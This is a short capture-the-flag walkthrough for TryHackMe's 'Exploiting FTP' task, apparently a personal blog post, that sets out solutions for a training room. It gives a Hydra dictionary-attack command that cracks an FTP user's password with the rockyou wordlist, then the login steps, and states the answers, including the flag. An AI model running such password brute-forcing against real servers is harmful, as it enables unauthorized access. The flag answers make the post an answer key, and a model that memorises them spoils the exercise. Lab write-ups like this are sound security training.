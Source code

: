 ```yaml
---
title:  "TryHackMe: Exploiting FTP"
date:   2021-03-12 23:45:00 +1100
excerpt: Using Hydra to crack a user's password on an FTP server.
---
```


This is a write up for the **Exploiting FTP** task of the [**Network Services**](https://tryhackme.com/room/networkservices) room on [TryHackMe](https://tryhackme.com). Some tasks have been omitted as they do not require an answer.

***

### What is the password for the user "mike"?

Run the Hydra command as instructed. Replace the username with 'mike' and the ip with the target machine.

```
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV <ip> ftp
```

<img src="{{ site.baseurl }}/assets/images/2021-03-13-exploiting-ftp/01-hydra.jpg">

> Answer: **password**

### What is ftp.txt?

Connect to the FTP server and attempt to login as Mike.

```
ftp <ip>
```

<img src="{{ site.baseurl }}/assets/images/2021-03-13-exploiting-ftp/02-ftp.jpg">

Download the ftp file.

```
get ftp.txt
```

Exit the FTP session and open the file to retrieve the flag.

<img src="{{ site.baseurl }}/assets/images/2021-03-13-exploiting-ftp/03-flag.jpg">

> Answer: **THM{y0u_g0t_th3_ftp_fl4g}**

### Recap

In this task we learnt how to:
 * Use Hydra and apply a wordlist to crack a password